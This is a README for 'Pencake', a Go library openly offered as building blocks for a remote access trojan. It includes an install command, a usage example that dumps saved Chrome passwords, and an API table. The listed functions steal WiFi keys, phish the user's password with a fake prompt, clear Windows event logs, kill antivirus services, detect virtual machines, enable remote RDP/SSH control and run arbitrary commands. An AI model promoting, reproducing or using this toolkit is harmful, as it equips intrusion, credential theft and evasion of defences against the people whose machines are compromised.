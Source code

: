 # Pencake
Modules you need for building a rat!

### Example
Getting all your chrome passwords
```go
package main

import (
	"fmt"
	"pencake"
)

func main()  {
	fmt.Println(pencake.ChromePassword())
}

/*
Ouput:
[{https://sso.stupid.edu shou@stupid.edu password} ...]
*/
```

### Getting Started

```bash
go get -u github.com/shouc/pencake
```

### Usage
| Function Name         | Description                              | Returns                      | Requirement                     | OS              |
| --------------------- | ---------------------------------------- | ---------------------------- | ------------------------------- | --------------- |
| `AskPass()`             | Ask user about their password            | `string` (user input)          | /                               | macOS           |
| `ChromePassword()`      | Dump user's saved password in Chrome     | `pencake.ChromePasswordStruct` | root privilege on macOS & Linux | All             |
| `ClearLogs()`           | Clear event logs                         | `bool` (whether successful)    | administrator                   | Windows         |
| `DisableRemote()`       | Stop either SSH or RDP                   | /                            | root or administrator           | All             |
| `Environment()`         | Get all environment variables            | `pencake.EnvironmentStruct`    | /                               | All             |
| `Exec(command string)`  | Execute bash code                        | `string` (output)              | /                               | All             |
| `KillAv()`              | Stop all anti-virus services             | `string` (AV name)             | administrator                   | Windows         |
| `Popup(message string)` | Pop up a message box                     | /                            | /                               | macOS / Windows |
| `RemoteControl()`       | Start either RDP or SSH                  | /                            | root or administrator           | macOS / Windows |
| `Restart()`             | Restart system                           | /                            | depend on system                | All             |
| `Shutdown()`            | Shutdown system                          | /                            | depend on system                | All             |
| `Sleep()`               | Sleep system                             | /                            | /                               | All             |
| `SysInfo()`             | Get system information                   | `pencake.SysInfoStruct`        | /                               | All             |
| `Unsleep()`             | Exit sleeping                            | /                            | /                               | All             |
| `VmScan()`              | Scan whether system is running on the VM | `string` (VM name)             | /                               | All             |
| `WifiKey()`             | Get all saved WiFi names and passwords   | `pencake.WifiKeyStruct`        | depend on system                | All             |


### Data Structure

`pencake.ChromePasswordStruct`

```go
type ChromePasswordStruct struct {
	Url      string
	UserName string
	Password string
}
```

`pencake.EnvironmentStruct`

```go
type EnvironmentStruct struct {
	Key   string
	Value string
}
```

`pencake.SysInfoStruct`

```go
type SysInfoStruct struct {
	Os       string
    Arch     string
    UserName string
    Name     string
    IsAdmin  bool
    PublicIp string
}
```

`pencake.WifiKeyStruct`

```go
type WifiKeyStruct struct {
	Name     string
    Password string
}
```